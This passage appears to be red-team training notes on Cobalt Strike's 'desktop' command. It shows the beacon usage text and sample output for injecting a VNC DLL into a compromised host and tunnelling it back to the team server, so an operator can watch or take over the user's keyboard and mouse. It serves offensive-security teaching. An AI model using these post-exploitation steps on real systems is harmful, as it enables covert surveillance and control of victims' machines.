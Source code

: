 Cobalt Strike can also inject an entire reflective VNC DLL to obtain remote control over the user's desktop.  This can be accessed using the `desktop` command, or **Explore > Desktop (VNC)**.

```powershell
beacon> help desktop
Use: desktop [pid] [x86|x64] [high|low]
     desktop [high|low]

Injects a VNC server onto the target and connects to it. You may specify
whether or not the session is high or low-quality.

beacon> desktop high
[*] Tasked beacon to spawn VNC server
[+] started port forward on 5117 to 127.0.0.1:5117
```

This will create a reverse port forward on the target, which the VNC DLL will use to tunnel traffic back to the team server.  The team server will also begin listening on the same port for the Cobalt Strike client to connect to.

![[Pasted image 20250707085842.png]]

The session is in 'view only' mode by default, but operators can take remote control over the keyboard and mouse using the buttons at the bottom of the window.  Closing this tab will automatically tear down the port bindings.
